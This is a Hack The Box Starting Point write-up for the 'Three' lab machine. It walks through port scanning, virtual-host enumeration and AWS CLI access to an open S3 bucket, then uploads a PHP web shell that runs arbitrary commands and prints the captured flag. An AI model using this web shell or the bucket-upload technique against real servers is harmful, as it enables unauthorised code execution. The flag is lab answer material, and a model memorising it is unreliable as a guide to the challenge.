

# Writeup "Three"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                             </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/starting-point                </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-three-discussion </td></tr>
   <tr><td><b> type       </b></td><td> starting-point/tier-1                                    </td></tr>
   <tr><td><b> difficulty </b></td><td> very easy                                                </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-12                                               </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-12                                               </td></tr>
</table>

## Description

> N/A

## Solution

---

> Task 1: How many TCP ports are open?  
> Hint: `*`

We perform a portscan using `sudo nmap -sV -sC -v $IP` which discovers two open ports, both TCP: ports 22 (ssh) and 80 (http).

---

> Task 2: What is the domain of the email address provided in the "Contact" section of the website?  
> Hint: `**********.**b`

We open the provided IP address in our browser and scroll down to the contact section. The e-mail given is `mail@thetoppers.htb`.

---

> Task 3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?  
> Hint: `/***/****s`

Correct answer is `/etc/hosts`.

---

> Task 4: Which sub-domain is discovered during further enumeration?  
> Hint: `**.**********.**b`

We start by using `gobuster dns` which yields no results however; so, we start to research other `gobuster` options. It turns out that the correct command to use in this case is

```
gobuster vhost --url "thetoppers.htb" --wordlist /usr/share/wordlists/amass/subdomains.lst
```

This gives us several subdomains with error codes `400` and one subdomain with error code `404`: `s3.thetoppers.htb`

---

> Task 5: Which service is running on the discovered sub-domain?  
> Hint: `****** *3`

The `nmap` output gives us no hints, so we do a web search for `s3 service`. We find a page describing _"Amazon S3"_, a data storage service[^1]. We also find an article describing a vulnerability called _"Sub-Domain Take Over"_[^2].

---

> Task 6: Which command line utility can be used to interact with the service running on the discovered sub-domain?  
> Hint: `*****i`

A web search for _"interact with amazon s3"_ shows a lot of results referencing a tool named "AWS CLI".

---

> Task 7: Which command is used to set up the AWS CLI installation?  
> Hint: `*** ********e`

We find a page describing how to install AWS CLI[^3] and how to to the initial setup[^4], where the command `aws configure` is used for a quick setup of the AWS CLI installation.

---

> Task 8: What is the command used by the above utility to list all of the S3 buckets?  
> Hint: `*** ** *s`

Reading further through the Amazon S3 manual, we find the command for listing buckets and objects: `aws s3 ls`[^5].

---

> Task 9: This server is configured to run files written in what web scripting language?  
> Hint: `***`

In the manual, we find a page describing scripting-related commands[^6]. One command allows us to list all objects in a certain bucket:

```
$ aws s3api list-objects --endpoint=http://s3.thetoppers.htb --bucket thetoppers.htb

None
CONTENTS        "d41d8cd98f00b204e9800998ecf8427e"      .htaccess       2022-08-12T14:23:07+00:00       0       STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "dfb9777b31be8fabb294b983923643b1"      images/band.jpg 2022-08-12T14:23:07+00:00       90172   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "2b4717d134a1054878e8c4739a2a36c5"      images/band2.jpg        2022-08-12T14:23:07+00:00       282848  STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "06a429a7bb58cc67108ab25016bd7372"      images/band3.jpg        2022-08-12T14:23:08+00:00       2208869 STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "c636245ad5b87088bd2ded8b0041be65"      images/final.jpg        2022-08-12T14:23:07+00:00       77206   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "fa600c2eb22b00d611ff32176e2ddc8f"      images/mem1.jpg 2022-08-12T14:23:07+00:00       69170   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "9e8d050b41fb5a7009d253624ff1148d"      images/mem2.jpg 2022-08-12T14:23:07+00:00       39270   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "ba63bc1fb60af4a6cdac15085d7bd9d1"      images/mem3.jpg 2022-08-12T14:23:07+00:00       64347   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "fb333c634786553e5431192eb9e3015e"      index.php       2022-08-12T14:23:07+00:00       11952   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
```

We can see that there is a _PHP_ file, so this should be the right answer.

---

> Submit flag

After a lot of trial and error, we find a command to download all files from the bucket to the local file system:

```
aws --endpoint=http://s3.thetoppers.htb s3 cp s3://thetoppers.htb . --recursive
```

However, those files do not contain any useful information for us. So we decide to use the command in the other way and upload a PHP shell:

``` php
<form action="rce.php" method="get">
  <input type="text" id="cmd" name="cmd" value='<?php print($_GET["cmd"]); ?>' autofocus 
    onfocus="var temp_value=this.value; this.value=''; this.value=temp_value" />
</form>
<hr />
<pre>
  <?php system($_GET["cmd"]); ?>
</pre>
```

We can now open this shell by navigating to `http://thetoppers.htb/rce.php`. Using the command `find / -name *flag*` we find the location of the flag:

<p align="center">
   
</p>

Using the command `cat /var/www/flag.txt` we can get the flag:

```
a980d99281a28d638ac68b9bf9453c2b
```

### Sources

[^1]: https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html
[^2]: https://towardsaws.com/subdomain-takeover-aws-s3-bucket-4699815d1b62?gi=70ed3207e2b1
[^3]: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html
[^4]: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-quickstart.html
[^5]: https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html#using-s3-commands-listing-buckets
[^6]: https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html#using-s3-commands-listing-buckets
[^7]: 
[^8]: 
[^9]: 
[^10]: 
[^11]: 
[^12]: 
[^13]: 
[^14]: 
